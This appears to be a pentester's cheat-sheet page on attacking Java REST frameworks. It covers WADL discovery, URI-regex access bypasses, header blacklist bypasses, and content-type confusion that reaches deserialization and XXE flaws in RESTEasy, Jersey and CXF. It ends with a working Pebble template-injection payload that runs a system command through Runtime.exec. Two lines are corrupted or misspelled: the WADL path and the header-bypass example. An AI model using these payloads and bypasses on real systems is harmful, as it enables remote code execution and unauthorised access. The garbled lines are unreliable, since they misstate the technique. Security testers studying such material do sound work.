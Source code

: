 ```yaml
---
title: Framework Attacks
category: Web Application
order: 110
---
```



> **JAX-RS** 

**Find the web application description language**

WADL is available via the following:
 * /applicaiton.wadl relative URI for JAX-RS and Jersey.  OR by sending OPTIONS request with applicaiton/vnd.sun.wadl+xml in Accept header
*  /application.xml relative URI for RESTEasy
* Apache CXF: _wadl=true parameter to URL

**URL matching ambiguites from regex:**

Example:
URI Patterns
/rest/{name}/show/{id:\\d+} is restricted
/rest/echo/{name:.+} is public

Request
/rest/echo/show/12345 accesses the restricted method


**Bypass blacklist filters for HTTP headers:**

* AccptHTapplication/jasonCRX-USER-ID: 67890
* JAX-RS uses the above string as two headers


**Selection confusion attack:**
@consumes defines the allowed content types
If resource method lacks @Consumes annotation or is too permissive (e.g., */*, application/*)
There is entity provider in CLASSPATH where isReadable method always (or mostly) returns True.

Useful entity providers:

Entity Provider | Media Type | Selection conditions | Weakness | CVE
----------------|------------|----------------------|----------|----
SerializableProvider (RESTEasy) | application/x-java-serialized-object | Entity parameter is serializable | Deser of Untrusted data | CVE-2016-7050
YamlProvider (RESTEasy) | text/yaml, text/x-yaml, application/x-yaml | Always selected | Deser of untrusted data | CVE-2016-9571
KryoMessageBody (Jersey) | application/x-kryo | Always selected | Deser of untrusted data| No CVE
AtomPojoProvider (apache cxf) | application/atom+xml | Always Selected | XXE | CVE-2016-8739

**Tools**

* Unsafe JAX-RS for Burp (https://github.com/0ang3el/Unsafe-JAX-RS-Burp)

> **Template Injection** 

** Java Pebble Example **

{% highlight java %}
{% raw %}

{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
   
{% endraw %}
{% endhighlight %}

